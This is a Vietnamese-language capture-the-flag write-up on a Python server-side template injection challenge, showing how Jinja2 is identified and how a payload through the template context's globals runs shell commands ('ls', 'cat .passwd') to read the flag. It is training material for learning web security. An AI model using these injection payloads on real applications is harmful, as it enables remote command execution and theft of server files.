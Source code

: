# Trần Mạnh Huy

* [Python - Server-side Template Injection Introduction](#python-server-side-template-injection-introduction)
* [Java - Server-side Template Injection](#java-server-side-template-injection)


## Python - Server-side Template Injection Introduction

```
Statement

This service allows you to generate a web page. Use it to read the flag!

```

#### Đễ thấy ứng dụng nhận vào hai tham số trong đó giá trị content gặp phải lỗ hổng SSTI, thử với payload **{{10*10}}** trong phần content được server trả về kết quả: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_01.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_02.jpg)

Do kết quả trả về là "10101010101010101010" nên có thể xác nhận template được dùng ở đây là jinja2, còn nếu trả về 100 thì sẽ là template twig.

#### Đã xác định được template là jinja2, ta có thể build được payload khai thác từ nó
Dùng TemplateReference object để import các module bằng payload:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls').read() }}

```
Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_03.jpg)

#### Thay payload trên bằng {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls -lsa').read() }}

Thấy được file .passwd. Sửa payload thành : **{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('cat .passwd').read() }}** ta được pass để giải chall này

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_04.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_05.jpg)
